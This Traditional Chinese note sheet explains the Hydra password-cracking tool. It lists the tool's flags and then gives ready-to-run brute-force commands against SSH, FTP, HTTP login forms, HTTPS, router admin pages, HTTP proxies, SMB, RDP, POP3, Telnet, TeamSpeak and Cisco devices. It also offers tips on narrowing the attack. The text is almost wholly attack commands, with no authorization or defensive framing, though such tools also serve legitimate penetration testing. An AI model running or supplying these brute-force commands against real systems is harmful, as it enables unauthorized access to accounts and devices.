 ```yaml
---
Date: 2024-02-07
tags:
  - 資安
  - 破解
  - 資安工具
---
```

## 使用方式

```
引數：
-l login 小寫，指定使用者名稱進行破解
-L file 大寫，指定使用者的使用者名稱字典
-p pass 小寫，用於指定密碼破解，很少使用，一般採用密碼字典。
-P file 大寫，用於指定密碼字典。
-e ns 額外的選項，n：空密碼試探，s：使用指定賬戶和密碼試探
-M file 指定目標ip列表檔案，批次破解。
-o file 指定結果輸出檔案
-f 找到第一對登入名或者密碼的時候中止破解。
-t tasks 同時執行的執行緒數，預設是16
-w time 設定最大超時時間，單位
-v / -V 顯示詳細過程
-R 恢復爆破（如果破解中斷了，下次執行 hydra -R /path/to/hydra.restore 就可以繼續任務。）
-x 自定義密碼。
```

```
service：指定服務名，支援的服務跟協定有：telnet，ftp，pop3等等。
注意點：1.自己建立字典,然後放在當前的目錄下或者指定目錄。
2.引數可以統一放在最後，格式比如hydra ip 服務 引數。
3.如果能確定使用者名稱一項時候，比如web登入破解，直接用 -l就可以，然後剩餘時間破解密碼。
4.缺點，如果目標網站登入時候需要驗證碼就無法破解。
5.man hydra最萬能。
6.或者hydra -U http-form等檢視具體幫助。
```

## **開始爆破**

```
hydra -L user.txt -P password.txt -t 2 -vV -e ns 192.168.154.131 ssh
```

[影片](https://youtu.be/FUZsB-nfbnc)

### FTP

檔案傳輸協定

```
hydra -L 使用者名稱字典 -P 密碼字典 -t 6 -e ns IP地址 -v
```

### http協定破解

```
get方式提交，破解web登入：

hydra -L 使用者名稱字典 -P 密碼字典 -t 執行緒 -v -e ns IP地址 http-get /admin/
hydra -L 使用者名稱字典 -P 密碼字典 -t 執行緒 -v -e ns -f IP地址 http-get /admin/index.php

post方式提交，破解web登入：

hydra -f -l 使用者名稱 -P 密碼字典 -V -s 9900 IP地址 http-post-form "/admin/index.php?action=login:user=USER&pw=PASS:"


#/index.php …這個是登入的 url
#後門是POST的資料 其中的使用者名稱密碼使用 USER PASS 來代替
#然後是如果登入出錯 會出現的字元 。。。然後開始破解
```

### https協定破解

```
破解https

hydra -m /index.php -l 使用者名稱 -P 密碼字典.txt IP地址 https
```

### 路由器破解

```
hydra -l admin -x 6:10:1a.~!@#$%^&()-= -t 8 192.168.1.1 http-get /
-l admin 為嘗試破解的使用者名稱。

# -x 6:10:1a. 表示列舉的密碼由 數位、小寫字母和單字元’.'等等組成，長度為 6 - 10 位。-t 8 表示分 8 個並行任務進行爆破嘗試。192.168.1.1 為 Router 地址。http-get 為破解方式（協定）
```

### http-proxy協定破解

```
破解http-proxy：

hydra -l admin -P 字典.txt http-proxy://IP地址
```

### smb破解

```
破解smb：

hydra -l 使用者名稱字典 -P 密碼字典 IP地址 smb
```

### Windows遠端桌面

```
破解rdp(windows遠端登入)：

hydra ip地址 rdp -l administrator -P 密碼字典.txt -V
```

### 郵箱pop3

```
破解郵箱pop3：

hydra -l 使用者名稱 -P 密碼字典.txt my.pop3.mail pop3
```

### telnet破解

```
hydra ip地址 telnet -l 使用者字典.txt -P 密碼字典.txt -t 32 -s 23 -e ns -f -V
```

### 語音通訊工具teamspeak

```
hydra -l 使用者名稱字典 -P 密碼字典.txt -s 埠號 -vV ip teamspeak
```

### cisco

```
hydra -P 密碼字典 IP地址 cisco
hydra -m cloud -P 密碼字典 IP地址 cisco-enable
```
